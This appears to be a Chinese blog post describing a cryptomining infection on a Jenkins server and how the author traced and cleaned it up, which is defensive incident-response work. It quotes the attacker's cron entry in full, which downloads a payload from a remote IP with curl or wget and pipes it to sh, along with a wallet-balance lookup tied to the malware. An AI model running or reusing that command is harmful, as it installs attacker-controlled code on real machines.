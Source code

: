 ```yaml
---
layout: post
title: 比特币病毒
pid: 482
tags: [病毒]
---
```


为了方便外网同事使用jenkins编译程序，结果中毒了！还好没有带来损失。

查找所有和Jenkins相关的进程

![](/uploads/2019/10/09-01.png)

从进程中，我们发现有一个进程非常可疑

![](/uploads/2019/10/09-02.png)


以下是访问链接

```shell
curl -s https://blockchain.info/balance?cors=true&active=1PETrfsS8x6UfC7ktYmX5xkc7Q8Df9q1Qj|1EPe9Sxrh1kYrgju5aMJuS7d3DiqUWtF9D|1QHDSLbeQTVJUiBryNpx6SBXYpTyDr9x66|1Mv8rVuhyRbcizhvqneP932E9WBUkRyRwG|1KnEz1B5SbPosqbFsBBB88DeySyJwpGeLg|1H3gFZbXvTbaxrGNPSUBzyMG6GgA3XuNCs|19UCoreDw3drhWivjKxwqHQDXuTJqoR43X|18HpkeN4tPHtv7ZfpAmZcMuD9JQTWw34cW|1NuUYe9Yh9uVDTwDTUu1wexPYERqJ7xoGe|12JYm61nym1aXAGaTah37foXq1PKzSsKbs|1Pe5RKoTCfkUdBKahjcjJpCnC6SEZiv73k|1DG4Y17pMhX8W7b7T7kpLk7SGPVjhozfvs|1Eepu3rrX5s3QahnL6VxTsLCt9Jk893jxQ|1D18AUn1zu4zbamrvxQtDjDGM7tVebDaBt|18bTnQqAbSxomekA1S69YgstUYbqJ75Wiv|1JZs5m5xwZz6DTK1kyrmbh2TuGurMgEEuu|1kXBrhMdw33oX9PqYwWKFVghSnsWmK36J|16ci4z5Y8CiCX4nK8XEaAA48oiyDseSX7m|1DPCFacH3bQJ4t9Bnx8t26aErWdtbjAzPg|12T1Fxcd6KYFwRNcBUb7baNCbVUDvMeUdC|15SjGWEzZsnbkmVnkP6WJcQgkGfDEdqoPs|1AAnSyzST3sicyayAhR71Gk8wV8GhfbLZc|15kXeDinqdLfL1yv67fNaXj6ExHe8Rfn99|1FGZghmcQgQxguMzGw1osHpSeXLxP7iTuP|17A7iBuDrKutiqyRd3YqKcr2sSBidbqGm6|1FjSQ7EW1WtKfsa6hhE6W7gvUZRxFs5tMn|1AKHNBPXJtbDigZULCLbpcUajYr9cpKztn|1LBWheVjMdNPeEJ3Wjq18MGwoNNTUy7Jm4|1AiBZX5exwP39fRLBHnWTCWcqBt4YMU1Jo|1CKz7kvhGnb5saBNwbxRs3ME1rTJrv49ZH|1Mm14atTvn4H59vTDfZ2mya9HAR733Zt4B|1QJxBLs8xj83oFDMGj9yEToAFcEzSjmuJH|1AbaSwPpTr1FPxFGQBbr3WGBhBJMsoG8PN|14fiNgZk8DSCsbEcFxWXxbACbEAyKLKqia|14dS6FieQB4iMWRvaKSUgDLeLXXNRVYXjY|1GR3GQuBmyEm2SomFrkbdPBcZ7mBYcqWV8|17D5cWEKCi9cULcostmGBh3y6SaPctTZKH|15tU56yDN6eFC5ttCxBMbrGRtEfTM6a57a|1Am3mHyfYMEApER5Uy8VxnmZie8epyDofr|1nkvuYZpYRpYGaHooW93usJkSrexnVhNG|14yUtwYPgxfPQf8uXN2AuiXEudjWdiGziZ|1FcXNhC7VjUcvAdF74WbcuLUjupUkQh8xu|1CdWHNbC5NoJoNHNdTfEkzjNzdnXfPJZ1c|1A1aFcJMSpsG4SpebRPU93SpcMJRuWR9ry|16r13tuk1wZk4u9hporeFFSmMi3FBWsoiP|1GHmN9RWcRXGf3HEqzdjVJTaNQsQsRxVoh|18zQq7BVLEzybaxdmWe5ANp1CHxYFiNULv|17GSHgR8AZrDxJLoU4Shv4cf5MQTAKhBF3|13fD8HzXiwLHa7GVMsQjCEUwh4qz54qrnZ|1FUqctkFvrJvSpyCwAs7VGFeKiZh3DvFyU|17GAgPXvpWDgraXAHirH5Lu74qKo2hLQyk|1Lv8G4d3dAFnp6f76vF7eye25ayNz2wDFb|19KckVeD8LncJJAHuoJ1Gx4MEEtiXfJ5C1|12KD24S9h8f6aX4PGPeyMnKpt2SFfAsvKE|18KYHhZwHY7WLd7caC9Wmce1ZrFnJCADFR|13yY1VGYnj1LhDaroAM3N2teeQeuUW2kXm|1PBSJ2kVdFJ9K7Tv7gQx3qwQqcAcyrzeiF|15CAbrEZSpXEAN1vsqoH5W1kuJ1t2iyRV2|1PNaejHuS76nV5VRc5PzBunQvLyoR8vj7V|1DkkAwkrmSYDfqDVtWkYRL3bJS5cW5w6Fc|1LjbtTT3Q4zoxFYfv4HpjY6C2EczCtXvyW|1NC95PosxV2NJpY9tr22NFNwhhfsSEYbqU|19JHejxEUZEKnQCHgtMPrWVt5wvKW8BbqG|1EYXaB699EMXTQkshrXpTEcZUR5cPDkh9M
```

删除所有Jenkins相关内容后，隔天发现，进程还是异常的

![](/uploads/2019/10/09-03.png)

通过Pid跟踪进程

![](/uploads/2019/10/09-04.png)

通过Pid跟踪进程

![](/uploads/2019/10/09-05.png)

查看进程树

![](/uploads/2019/10/09-06.png)

找到定时任务路径

![](/uploads/2019/10/09-07.png)

查看定时任务内容

![](/uploads/2019/10/09-08.png)

```shell
vim /var/spool/cron/jenkins

*/55 * * * * (curl -s http://185.164.72.119/log_rotate.bin||wget -q -O- http://185.164.72.119/log_rotate.bin)|sh
```

清除定时任务

![](/uploads/2019/10/09-09.png)

Kill进程，持续跟进

![](/uploads/2019/10/09-10.png)

